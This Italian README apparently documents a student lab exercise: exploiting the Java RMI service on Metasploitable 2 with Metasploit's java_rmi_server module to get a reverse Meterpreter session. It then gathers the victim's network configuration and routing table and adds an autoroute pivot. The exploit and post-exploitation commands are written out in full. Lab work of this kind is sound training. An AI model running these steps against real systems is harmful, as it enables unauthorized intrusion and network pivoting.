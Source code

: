 # 📐 Progetto S7/L5 📐
# Java RMI exploit --> recupero informazioni rete e tabella di routing 🚀

## 📋 Descrizione
Questo progetto esplora l'uso avanzato di **Metasploit Framework**, concentrandosi su:
- **Sfruttamento di vulnerabilità** (es. Java RMI sulla porta 1099).
- **Raccolta di informazioni** su configurazioni di rete e tabelle di routing della macchina target.

**Obiettivo:** Dimostrare competenza nell'utilizzo di Metasploit per raccogliere informazioni e accedere ai sistemi vulnerabili in un ambiente controllato.

---

## 🛠️ Ambiente di test

- **Macchina attaccante:** Kali Linux
  - **IP:** 192.168.50.165
- **Macchina vittima:** Metasploitable 2
  - **IP:** 192.168.50.3
  - **Servizio vulnerabile:** Java RMI (porta 1099)

---

## ⚙️ Passaggi eseguiti

### 1️⃣ Configurazione della rete
Per garantire la comunicazione tra le macchine:
- La macchina Metasploitable è stata configurata con un IP statico: `192.168.50.3`.
- Verificata la connettività con il comando:
  ```bash
  ping 192.168.50.3
  ```

---

### 2️⃣ Sfruttamento della vulnerabilità

#### Modulo usato:
- **Exploit:** `exploit/multi/misc/java_rmi_server`

#### Configurazione del modulo:
```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS 192.168.50.3
set RPORT 1099
set LHOST 192.168.50.165
set LPORT 4444
exploit
```

#### Risultato:
- Ottenuta una sessione **Meterpreter** sulla macchina vittima.

---

### 3️⃣ Raccolta di informazioni 🕵️‍♂️

#### Configurazione di rete:
- Comando eseguito da Meterpreter:
  ```bash
  ifconfig
  ```
  - Output salvato in `netconfig.txt`.

#### Tabella di routing:
- Recuperata la tabella di routing:
  ```bash
  cat /proc/net/route
  ```
  - Output salvato in `routing_table.txt`.

---

### 4️⃣ Utilizzo del modulo `autoroute`

Per esplorare ulteriormente la rete:
- **Modulo usato:** `post/multi/manage/autoroute`
- Configurazione:
  ```bash
  use post/multi/manage/autoroute
  set SESSION 1
  run
  ```
- **Risultato:** Aggiunto il route alla rete `192.168.50.0/24`.

---

## 📂 File generati

- `netconfig.txt`: Configurazione di rete della macchina vittima.
- `routing_table.txt`: Tabella di routing della macchina vittima.

---

## 📸 Screenshot

### Configurazione di rete
![Configurazione di rete](route.png)

### Tabella di routing
![Tabella di routing](TabelladiRouting.png)

---

## 💡 Conclusioni

L'esercizio ha permesso di:
1. Sfruttare una vulnerabilità nota per ottenere l'accesso remoto.
2. Raccogliere informazioni critiche sulla macchina vittima.
3. Configurare Metasploit per estendere il controllo alla rete target.

Questo progetto dimostra la versatilità di Metasploit non solo per l'exploit di vulnerabilità, ma anche per la raccolta di informazioni e la gestione avanzata delle reti. 🛡️
